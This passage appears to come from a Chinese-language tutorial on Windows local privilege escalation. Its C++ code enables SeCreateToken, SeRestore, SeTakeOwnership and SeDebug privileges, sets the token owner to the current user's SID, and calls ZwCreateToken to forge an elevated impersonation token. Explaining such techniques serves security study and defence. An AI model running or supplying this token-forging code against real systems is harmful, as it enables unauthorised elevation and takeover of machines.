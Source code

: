 ```c++
	pTokenPrivileges->Privileges[1].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[1].Luid = luid;

	// Enable SeCreateTokenPrivilege
	LookupPrivilegeValue(NULL, SE_CREATE_TOKEN_NAME, &luid);
	pTokenPrivileges->Privileges[2].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[2].Luid = luid;

	// Enable SeRestorePrivilege
	LookupPrivilegeValue(NULL, SE_RESTORE_NAME, &luid);
	pTokenPrivileges->Privileges[3].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[3].Luid = luid;

	// Enable SeTakeOwnershipPrivilege
	LookupPrivilegeValue(NULL, SE_TAKE_OWNERSHIP_NAME, &luid);
	pTokenPrivileges->Privileges[4].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[4].Luid = luid;

	// Enable SeDebugPrivilege
	LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid);
	pTokenPrivileges->Privileges[5].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[5].Luid = luid;
}
```

为了能够成功模拟新生成的令牌，还有最后重要的一点，就是将令牌的拥有者设为当前用户。这里也是先查询当前进程令牌的 TokenUser 信息，该信息与访问令牌关联的用户的 SID，我们只需要将这个 SID 设置到 `ZwCreateToken()` 函数的 `Owner` 参数中即可：

```
pTokenUser = (PTOKEN_USER)GetTokenInfo(hToken, TokenUser);
// ...
pTokenOwner = (PTOKEN_OWNER)LocalAlloc(LPTR, sizeof(PSID));
pTokenOwner->Owner = pTokenUser->User.Sid;
```

最后将调用 `ZwCreateToken()` 函数来生成模拟令牌，生成的令牌被保存在 `pElevatedToken` 指针所指向的内存中：

```c++
Status = ZwCreateToken(
	&pElevatedToken,
	TOKEN_ALL_ACCESS,
    &objectAttributes,
    TokenImpersonation,
    &AuthenticationId,
    &ExpirationTime,
    pTokenUser,
    pTokenGroups,
    pTokenPrivileges,
    pTokenOwner,
    pTokenPrimaryGroup,
    pTokenDefaultDacl,
    &tokenSource
);
if (Status != STATUS_SUCCESS)
{
	wprintf(L"[-] ZwCreateToken Error: [0x%x].\n", Status);
    goto Clear;
}
wprintf(L"[*] ZwCreateToken successfully and get elevated token:\n\n");
```
